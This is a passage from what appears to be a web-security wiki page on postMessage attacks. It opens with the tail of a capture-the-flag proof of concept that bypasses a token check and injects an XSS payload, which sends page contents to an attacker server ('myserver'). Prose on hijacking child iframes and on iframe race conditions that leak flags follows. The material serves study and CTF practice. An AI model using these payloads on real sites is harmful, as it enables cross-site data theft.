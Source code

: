 ```html
                document.body.appendChild(ifr);
                
                function hack(){
                    var win = open('https://obligatory-calc.ctf.sekai.team');
                    setTimeout(()=>{
                        parent.postMessage('remove', '*');
                        // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
                        // token=null equals to undefined and e.source will be null so null == undefined
                        win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
                    },1000);
                }
                
                // this removes the iframe so e.source becomes null in postMessage event.
                onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
            }
            setTimeout(start, 1000);
        </script>
    </body>
    
</html>
```

## Changing child iframes locations

According to [**this writeup**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), if you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**.\
This is specially useful in **postMessages** because if the parent page is sending sensitive data using a **wildcard** like `windowRef.postmessage("","*")` it's possible to **change the location of the iframe to an attacker controlled location** and steal that data.

## Winning RCs with Iframes

According to this [**Terjanq writeup**](https://gist.github.com/terjanq/7c1a71b83db5e02253c218765f96a710) blob documents created from null origins are isolated for security benefits, which means that if you maintain busy the main page, the iframe page is going to be executed.

Basically in that challenge an **isolated iframe is executed** and right **after** it's **loaded** the **parent** page is going to **send a post** message with the **flag**.\
However, that postmessage communication is **vulnerable to XSS** (the **iframe** can execute JS code).

Therefore, the goal of the attacker is to **let the parent create the iframe**, but **before** let the **parent** page **send** the sensitive data (**flag**) **keep it busy** and send the **payload to the iframe**. While the **parent is busy** the **iframe executes the payload** which will be some JS that will listen for the **parent postmessage message and leak the flag**.\
Finally, the iframe has executed the payload and the parent page stops being busy, so it sends the flag and the payload leaks it.
